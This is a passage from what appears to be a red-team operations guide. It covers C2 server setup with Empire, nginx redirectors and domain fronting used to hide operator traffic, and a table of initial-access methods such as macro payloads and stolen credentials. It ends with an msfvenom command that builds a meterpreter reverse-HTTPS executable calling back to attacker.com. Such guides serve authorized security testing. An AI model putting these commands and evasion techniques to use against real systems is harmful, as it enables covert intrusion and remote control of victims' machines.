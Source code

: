 ***

### III. ⚙️ Red Team Infrastructure Design

#### 🧠 1. Team Server Setup

Deploy C2 frameworks on secure VPS or lab VM:

```bash
sudo apt install docker docker-compose
git clone https://github.com/BC-SECURITY/Empire.git
cd Empire && ./setup.sh
```

#### ⚙️ 2. Staging & Redirectors

Use **nginx** or **CDN redirectors** to proxy C2 traffic:

```nginx
location /updates {
    proxy_pass http://127.0.0.1:8080;
}
```

→ Masks operator IPs, blends into normal web traffic.

#### 💣 3. SSL & Domain Fronting

Use legitimate cloud hosts (e.g. Azure, AWS) as fronts for your C2:

```
C2 → CloudFront → CDN → Red Team server
```

***

### IV. ⚙️ Initial Access Techniques

| Vector                    | Description                         | Tools                      |
| ------------------------- | ----------------------------------- | -------------------------- |
| **Phishing / Macro Docs** | Embedded PowerShell or VBA payloads | `Nishang`, `MacroPack`     |
| **Exploited Web Apps**    | RCE, LFI, upload shells             | `Burp`, `sqlmap`, `ffuf`   |
| **Valid Accounts**        | Stolen or guessed credentials       | `crackmapexec`, `kerbrute` |
| **Malicious Links**       | Shortened or encoded URLs           | `Gophish`, `King Phisher`  |
| **Drive-by Compromise**   | Exploit kits or JS payloads         | `BeEF`, `Metasploit`       |

***

### V. ⚙️ Payload Development & Obfuscation

#### 🧠 1. Shellcode Generation

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=attacker.com LPORT=443 -f exe -o beacon.exe
```
